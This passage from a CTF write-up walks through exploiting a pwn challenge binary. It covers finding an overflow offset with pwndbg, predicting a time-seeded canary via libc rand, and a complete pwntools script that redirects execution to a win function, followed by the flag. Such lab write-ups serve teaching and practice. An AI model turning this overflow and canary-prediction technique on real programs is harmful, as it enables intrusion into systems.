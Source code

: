 > The  strtol()  function converts the initial part of the string in nptr to a long integer value according to the given base, which must be between 2 and 36 inclusive,  or  be  the special value 0.

Now, this will convert all the input before a `space` is received and convert that to long. So, we know that we need this to be equal to our `guess` variable.
Next, we need to identify the offset where the buffer will overflow and overwrite the value of `localCanary`. To do that, we'll be using GDB ([pwndbg](https://github.com/pwndbg/pwndbg))

We'll be using `cyclic` and also setting up breakpoint at the `random_guess` function. Now, looking at the disassembly, we can see that the `localCanary` variable is being set at `rbp-0x4`. So, we'll be using `cyclic` to generate a pattern and then using `cyclic -l` to find the offset.

![chal](/static/writeups/amateurctf2023/pwn/rntk-3.png)
![chal](/static/writeups/amateurctf2023/pwn/rntk-4.png)

Now, we can see that we've found the offset i.e. `44`. So, the payload crafting now will be somthing like:

```md
1. The first four bytes are the number we want to guess
2. The next `40` bytes are the junk-payload (0th will be a space)
3. The next `4` bytes are the `localCanary` value
4. The next we'll add a cyclic pattern to find the offset
NOTE: As I've already told you, in 64bit, we can guess that the offset will be SIZE + 16 i.e. 40 + 16 = 56. So, after 56 bytes, if we write the address of our `win` function, we can get the flag.
```

> I created a local flag.txt with `TEST:FLAG` as the content to test the payload.

Now, the payload; with knowing that `56` bytes is the offset, and adding the win function will look something like this:

```py
#!/usr/bin/python3
from pwn import *
from ctypes import *

elf = context.binary = ELF("./chal")
io = process()

libc = cdll.LoadLibrary(elf.libc.path)
_time = libc.time(0x0)
libc.srand(_time)

offset = 44
io.sendlineafter(b"Exit\n", b'2')
canary = libc.rand()
guess  = libc.rand()
__init  = f"{guess} AAAA".encode()
payload = __init + b"\x90" * (offset - len(__init)) + canary.to_bytes(4, 'little') + (b"A" * 8) + p64(elf.sym.win)
io.sendlineafter(b"guess: ", payload)
info(io.recv())
```

![chal](/static/writeups/amateurctf2023/pwn/rntk-5.png)

Now, we can see that we've successfully exploited the binary and got the flag. Let's try this on the remote server.

![chal](/static/writeups/amateurctf2023/pwn/rntk-6.png)

Flag: `amateursCTF{r4nd0m_n0t_s0_r4nd0m_after_all}`